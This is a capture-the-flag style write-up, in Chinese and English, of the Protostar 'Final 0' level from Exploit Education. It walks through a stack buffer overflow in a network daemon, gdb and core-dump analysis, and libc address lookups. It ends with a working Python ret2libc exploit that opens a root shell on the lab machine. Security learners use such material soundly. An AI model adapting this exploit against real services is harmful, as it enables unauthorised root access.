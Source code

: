 ```yaml
---
title: Exploit Education：Protostar - Final
---
```


> The levels to be exploited can be found in the /opt/protostar/bin directory.
> 
> The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p.

## Final 0

> You may wish to use a toupper() proof shellcode

```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer); // reads a line from stdin into the buffer until either a terminating newline or EOF, which it replaces with '\0'

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

- `gets` 不处理 `\0`，而 `strlen` 通过 `\0` 来计算字符串的长度，因此可以通过前置 `\0` 来绕过 `toupper`
- `Core files will be in /tmp` 核心转储文件（`man core`）

    > The default action of **certain signals** is to cause a process to **terminate** and produce a core dump file, a disk file containing an image of the process's memory at the time of termination.

- 常见 Signal 如下

    Signal | Action | Comment
    -|-|-
    SIGINT | Term | Interrupt from keyboard
    SIGILL | Core | Illegal Instruction
    SIGSEGV | Core | Invalid memory reference

- 首先通过缓冲区溢出来获得核心转储文件用于调试并确定溢出点

    ```bash
    $ python -c "print 'a'*512 + '\x00'*4 + 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll'" | nc localhost 2995
    $ ls /tmp/core*
    /tmp/core.11.final0.18906
    $ su root
    # gdb final0 /tmp/core.11.final0.18906
    Core was generated by `/opt/protostar/bin/final0`.
    Program terminated with signal 11, Segmentation fault.
    #0  0x65656565 in ?? () # eeee
    ```
  
- 也可以通过进程调试

    ```bash
    # gdb -p `pidof final0`
    accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
    64	in ../sysdeps/unix/sysv/linux/i386/socket.S
    (gdb) set follow-fork-mode child  # 跟踪子进程
    Current language:  auto
    The current source language is "auto; currently asm".
    (gdb) c
    Continuing.
    [New process 19058] # another terminal sends the payload

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 19058]
    0x65656565 in ?? ()
    ```

- 查看 ret2libc 函数地址

    ```bash
    # gdb -p `pidof final0`
    accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
    64	in ../sysdeps/unix/sysv/linux/i386/socket.S
    (gdb) info functions @plt
    All functions matching regular expression "@plt":

    Non-debugging symbols:
    0x080489fc  __errno_location@plt
    0x08048a0c  srand@plt
    0x08048a1c  open@plt
    ...
    0x08048c0c  execve@plt
    ...
    0xb7fe380c  ___tls_get_addr@plt
    0xb7fe381c  free@plt
    Current language:  auto
    The current source language is "auto; currently asm".
    ```

- 观察如何构造栈来正确地调用 `execve()`

    ```c
    void main() {
        execve("/bin/sh", 0, 0);
        // int execve(const char *filename, char *const argv[], char *const envp[]);
        // no arguments and environment variables
    }
    ```

    ```bash
    $ gcc execve_example.c -o execve_example
    $ gdb ./execve_example
    (gdb) set disassembly-flavor intel
    (gdb) disassemble main 
    Dump of assembler code for function main:
    0x080483c4 <main+0>:	push   ebp
    0x080483c5 <main+1>:	mov    ebp,esp
    0x080483c7 <main+3>:	and    esp,0xfffffff0
    0x080483ca <main+6>:	sub    esp,0x10
    0x080483cd <main+9>:	mov    DWORD PTR [esp+0x8],0x0
    0x080483d5 <main+17>:	mov    DWORD PTR [esp+0x4],0x0
    0x080483dd <main+25>:	mov    DWORD PTR [esp],0x80484b0
    0x080483e4 <main+32>:	call   0x80482fc <execve@plt>
    0x080483e9 <main+37>:	leave  
    0x080483ea <main+38>:	ret    
    End of assembler dump.
    (gdb) break *0x080483e4
    Breakpoint 1 at 0x80483e4
    (gdb) r
    Starting program: /tmp/execve_example 

    Breakpoint 1, 0x080483e4 in main ()
    (gdb) si
    0x080482fc in execve@plt ()
    (gdb) x/8wx $esp
    0xbffff69c:	0x080483e9	0x080484b0	0x00000000	0x00000000
    0xbffff6ac:	0xb7fd7ff4	0x08048400	0x00000000	0xbffff738
    (gdb) x/2i 0x080483e9
    0x80483e9 <main+37>:	leave  
    0x80483ea <main+38>:	ret    
    (gdb) x/s 0x080484b0
    0x80484b0:	 "/bin/sh"
    ```

- 获取 `/bin/sh` 在 libc 中的偏移

    ```bash
    $ ldd execve_example    # get paths to all loaded libraries
        linux-gate.so.1 =>  (0xb7fe4000)
        libc.so.6 => /lib/libc.so.6 (0xb7e99000)
        /lib/ld-linux.so.2 (0xb7fe5000)
    $ grep -a -b -o /bin/sh /lib/libc.so.6
    1176511:/bin/sh
    # -a, --text                equivalent to --binary-files=text
    # -b, --byte-offset         print the byte offset with output lines
    # -o, --only-matching       show only the part of a line matching PATTERN
    ```

- 查看 libc 的起始地址

    ```bash
    # pidof final0
    1514
    # cat /proc/1514/maps
    08048000-0804a000 r-xp 00000000 00:10 2220       /opt/protostar/bin/final0
    0804a000-0804b000 rwxp 00001000 00:10 2220       /opt/protostar/bin/final0
    b7e96000-b7e97000 rwxp 00000000 00:00 0 
    b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
    b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
    b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
    b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
    b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
    b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
    b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
    b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
    bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
    ```

### Exploit

```py
import struct, socket, telnetlib

padding = 'a' * 512 + '\x00' * 4 + 'aaaabbbbccccdddd'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 2995))

execve = struct.pack('<I', 0x08048c0c)
binsh = struct.pack('<I', 1176511 + 0xb7e97000)
exploit = padding + execve + 'RETA' + binsh + '\x00' * 8

s.send(exploit + '\n')

t = telnetlib.Telnet()
t.sock = s
t.interact() # 使用 telnetlib 切换到交互模式
```

```bash
$ python final.py 
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
exit
*** Connection closed by remote host ***
```